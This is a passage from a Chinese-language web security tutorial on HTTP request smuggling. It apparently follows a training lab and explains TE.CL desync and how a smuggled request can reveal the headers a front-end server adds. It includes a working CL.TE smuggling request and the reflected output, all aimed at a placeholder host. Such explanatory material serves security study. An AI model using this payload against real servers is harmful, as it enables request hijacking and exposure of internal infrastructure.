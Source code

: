 ### TE.CL

绕过方式同理，但是前端采用Transfer-Encoding检测，后端采用Content-Length检测，对于删除carlos用户的思路相同

## 请求重写

在很多应用程序中，前端服务器往后端转发请求的时候会对一些请求进行重写，通常是添加一些额外的请求头比如说X-Forwarded-For，自定义的一些标识用户的标头。

在某些情况下，如果走私的请求却少一些由前端服务器添加的请求头，后端服务器不会以正常方式处理请求，导致走私没有办法达到预期的效果，可以这样来判断前端服务器是如何重写请求的：

- 首先找到一个POST请求并是那种可以将请求参数的值回显到应用程序的响应中的包
- 随后尝试随机排列参数，使反射的参数写在消息正文的最后
- 然后将这个请求偷偷发送到后端服务器，后面直接跟着一个普通的请求，您希望显示该请求的重写形式

假设应用程序有一个反映email参数值的登录函数：

```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

这将会导致响应包中包含以下内容信息：

```
<input id="email" value="wiener@normal-user.net" type="text">
```

加入发送的请求如下

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=1
```

前端服务器是Content-Length的检测，会得到去简析email的值，但是后端服务器是Transfer-Encoding的检测方式，在处理的时候会将走私的请求的视为email的参数值，从而在第二个请求的响应中回显看到添加到请求头（第二次前端仍然是提交了一个email参数，但是后端解析的却是走私的请求，此时email处的参数值则是提交的参数加上服务器处理后的第二个请求包）

```
<input id="email" value="1POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```
